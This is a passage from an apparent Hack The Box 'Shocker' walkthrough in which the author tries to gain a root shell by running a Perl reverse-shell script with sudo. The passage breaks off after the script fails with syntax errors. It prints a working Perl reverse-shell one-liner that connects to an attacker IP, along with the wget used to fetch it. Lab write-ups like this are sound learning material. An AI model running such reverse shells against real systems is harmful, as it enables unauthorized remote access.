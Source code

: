 We can run perl with root permissions. So we can setup a perl script to give us a shell.

[Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has an example of a perl reverse shell:

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

I created a `rev.cgi` file on my local box, according to [a tutorial](https://www.lcn.com/support/articles/how-to-create-a-perl-script/):

```bash
┌──(mac㉿kali)-[~/Documents/HTB/shocker]
└─$ cat rev.cgi 
#!/usr/bin/perl

perl -e 'use Socket;$i="10.10.16.211";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

I served the file and downloaded it to `/tmp`:

```bash
shelly@Shocker:/tmp$ wget 10.10.16.211:8000/rev.cgi
wget 10.10.16.211:8000/rev.cgi
--2021-06-14 05:52:18--  http://10.10.16.211:8000/rev.cgi
Connecting to 10.10.16.211:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 239 [application/octet-stream]
Saving to: 'rev.cgi'

     0K                                                       100% 19.6K=0.01s

2021-06-14 05:52:18 (19.6 KB/s) - 'rev.cgi' saved [239/239]
```

Then ran it according to [this](https://stackoverflow.com/questions/17748688/running-perl-script-from-command-line):

```bash
shelly@Shocker:/tmp$ sudo /usr/bin/perl rev.cgi
sudo /usr/bin/perl rev.cgi
syntax error at rev.cgi line 3, near "perl -e "
Execution of rev.cgi aborted due to compilation errors.
```

It won't compile. I tried it as a `.pl` file:

```bash
shelly@Shocker:/tmp$ mv rev.cgi rev.pl
mv rev.cgi rev.pl
shelly@Shocker:/tmp$ sudo /usr/bin/perl rev.pl
sudo /usr/bin/perl rev.pl
syntax error at rev.pl line 3, near "perl -e "
Execution of rev.pl aborted due to compilation errors.
```

